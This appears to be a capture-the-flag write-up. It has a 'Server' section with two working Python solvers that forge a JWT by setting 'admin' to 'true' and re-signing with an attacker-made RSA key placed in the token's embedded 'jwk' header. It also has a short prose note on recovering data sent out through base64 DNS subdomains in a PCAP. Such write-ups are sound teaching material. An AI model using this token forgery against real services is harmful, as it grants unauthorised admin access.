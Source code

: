 ```py
```
## Server
Honstly that problem took from us much time than it deserves.
You are given a jwt token which was signed by a private key. Your task is to alter the message and send it to the server with a valid signature. The vulnerability here is that the header contains the public key. So, the solution was simply through out this public key. Change what you need in the token and sign it with any private key and send with the header your public key and make sure you have got the correct encodings.
### code of duty approach:
The public and privates keys were generated previously and loaded from a file.
```py
def server_solver(question):
    decoded_payload = jwt.decode(question, options={"verify_signature": False})
    decoded_header = jwt.get_unverified_header(question)

    decoded_header['jwk']['e'] = _encode64Int(public_key.public_numbers().e)
    decoded_header['jwk']['n'] = _encode64Int(public_key.public_numbers().n)
    decoded_payload['admin'] = "true"
    jwt_token = jwt.encode(decoded_payload, private_key, algorithm="RS256", headers=decoded_header)
```
### respectively approach:
```py
def server_solver(question):
    payload = jwt.decode(question, options={"verify_signature": False}, algorithms=["RS256"])
    payload['admin'] = "true"

    private_key = rsa.generate_private_key(
        public_exponent=65537,
        key_size=2048,
    )

    # Serialize the private key to PEM format
    pem_private_key = private_key.private_bytes(
        encoding=serialization.Encoding.PEM,
        format=serialization.PrivateFormat.PKCS8,
        encryption_algorithm=serialization.NoEncryption(),
    )

    # Generate the public key from the private key
    public_key = private_key.public_key()

    # Serialize the public key to PEM format
    pem_public_key = public_key.public_bytes(
        encoding=serialization.Encoding.PEM,
        format=serialization.PublicFormat.SubjectPublicKeyInfo,
    )

    jwk_public_key = jwk.JWK.from_pem(pem_public_key)

    new_token = jwt.encode(payload, key=pem_private_key, algorithm='RS256', headers={'jwk': jwk_public_key,
                                                                                     'kid': jwk_public_key["kid"]})

    return new_token
```
## PCAP
Giving a pcap file, and you know that the server was DNS exfilterated from a specific IP you need to get what information was leaked.
Just filter the packets with the IP again, decode the subdomains with base64 and that's it.